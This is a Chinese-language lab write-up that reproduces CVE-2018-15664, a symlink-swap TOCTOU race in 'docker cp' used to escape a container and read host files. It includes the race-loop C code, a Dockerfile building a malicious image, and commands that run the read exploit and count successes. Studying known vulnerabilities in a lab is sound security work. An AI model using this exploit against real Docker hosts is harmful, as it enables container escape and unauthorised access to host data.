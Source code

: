 ### CVE-2018-15664 - docker cp符号链接替换漏洞

参考：http://mayoterry.com/index.php/archives/69.html

https://www.geekby.site/2021/11/%E5%AE%B9%E5%99%A8%E5%AE%89%E5%85%A8/



## 1.背景

docker cp命令是用于在docker创建的容器中与宿主机文件系统之间进行文件复制。

符号链接是类似于windows系统的快捷方式。

在linux中创建符号链接：``` ln -s target_path link_path ```

## 2.实验原理

漏洞影响的docker版本：docker 17.06.0-ce～17.12.1-ce:rc2，18.01.0-ce～18.06.1-ce:rc2

漏洞poc参考：https://seclists.org/oss-sec/2019/q2/131（Aleksa Sarai 公布）

来自SUSE安全团队的Aleksa Sarai公布了编号为CVE-2018-15664的docker相关高危安全漏洞，该漏洞的CVSS评分为8.7，影响面涵盖所有docker发行版本【注: 指漏洞发布时的所有docker版本】，攻击者可利用该漏洞逃逸出容器读取或篡改host或其他任意容器内的文件。

CVE-2018-15664 实际上是一个 `TOCTOU`(time-of-check to time-of-use) 的问题。当用户执行 `docker cp` 命令后，Docker 守护进程接收到请求，会对用户给出的复制路径进行检查。如果路径中有容器内部的符号链接，则先在容器内部将其解析成对应的路径字符串，留待后用。

如果在 Docker 守护进程检查复制路径时，攻击者在这里先放置一个非符号链接的的常规文件或目录，检查结束后，攻击者在 Docker 守护进程使用路径前将其替换为一个符号链接，那么这个符号链接就会被打开时在宿主机上解析，从而导致目录穿越。

## 3.实验准备

使用metarget搭建 CVE-2018-15664环境：

### 3.1 安装metarget

metarget目前仅支持在Ubuntu 16.04和18.04安装运行，在20.04上可能会遇到依赖项问题。

此实验是在ubuntu18.04上进行。

git clone https://github.com/brant-ruan/metarget.git

cd metarget/

pip3 install -r requirements.txt

安装成功之后，使用metarget安装cve-2018-15664的实验环境

### 3.2 搭建CVE-2018-15664环境

`./metarget cnv install cve-2018-15664`

### 3.3 下载poc

wget https://github.com/Metarget/cloud-native-security-book/tree/main/code/0302-%E5%BC%80%E5%8F%91%E4%BE%A7%E6%94%BB%E5%87%BB/02-CVE-2018-15664/symlink_race

![image-20211123102836464](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20211123102836464.png)

## 4.实验步骤

### 4.1 编译symlink_swap.c

cd build

cat symlink_swap.c

```c
/*
     * Now create a symlink to "/" (which will resolve to the host's root if we
     * win the race) and a dummy directory at stash_path for us to swap with.
     * We use a directory to remove the possibility of ENOTDIR which reduces
     * the chance of us winning.
     */
    if (symlink("/", symlink_path) < 0)
        bail("create symlink_path");
    if (mkdir(stash_path, 0755) < 0)
        bail("mkdir stash_path");

    /* Now we do a RENAME_EXCHANGE forever. */
    for (;;) {
        int err = rrenameat2(AT_FDCWD, symlink_path,
                            AT_FDCWD, stash_path, RENAME_EXCHANGE);
        if (err < 0)
            perror("symlink_swap: rename exchange failed");
    }
    return 0;
}

```

symlink_path 为 argv[1]传递过来的参数，例如目录 `/totally_safe_path` ，然后使用 symlink函数将symlink_path 软链接至系统根目录 / 。最后使用 `for (;;)`死循环调用rrenameat2 函数，创造赢得 TOCTOU 攻击的机会。

`gcc symlink_swap.c -o symlink_swap`

![image-20211123103442418](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20211123103442418.png)

### 4.2 修改Dockerfile

Dockerfile的主要内容是构建漏洞利用程序，并将其放在容器的根目录下，并在根目录下创建一个 `w00t_w00t_im_a_flag` 文件，内容为：`FAILED -- INSIDE CONTAINER PATH`。容器启动后执行的程序(`Entrypoint`) 即为：symlink_swap

构建镜像时，在容器内安装 gcc 时报错，可以先在宿主机将 symlink_swap 编译好，再 COPY 到容器中。

修改之后的Dockerfile

```dockerfile
# Build the binary.
FROM opensuse/tumbleweed
# RUN zypper in -y gcc glibc-devel-static
RUN mkdir /builddir
COPY symlink_swap.c /builddir/symlink_swap.c
# RUN gcc -Wall -Werror -static -lpthread -o /builddir/symlink_swap /builddir/symlink_swap.c
COPY symlink_swap /builddir/symlink_swap

# Set up our malicious rootfs.
FROM opensuse/tumbleweed
ARG SYMSWAP_TARGET=/w00t_w00t_im_a_flag
ARG SYMSWAP_PATH=/totally_safe_path
RUN echo "FAILED -- INSIDE CONTAINER PATH" >"$SYMSWAP_TARGET"
COPY --from=0 /builddir/symlink_swap /symlink_swap
ENTRYPOINT ["/symlink_swap"]
```

### 4.3 执行run_read.sh（读取宿主机内容）

```bash
./run_read.sh &>/dev/null &
chmod 0644 ex*/out
grep 'SUCCESS' ex*/out | wc -l
grep 'FAILED'  ex*/out | wc -l
```

![image-20211123110614205](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20211123110614205.png)

如果grep 'SUCCESS' ex*/out | wc -l显示的数值>0则表示在容器里成功的读取到了host主机的文件内容。







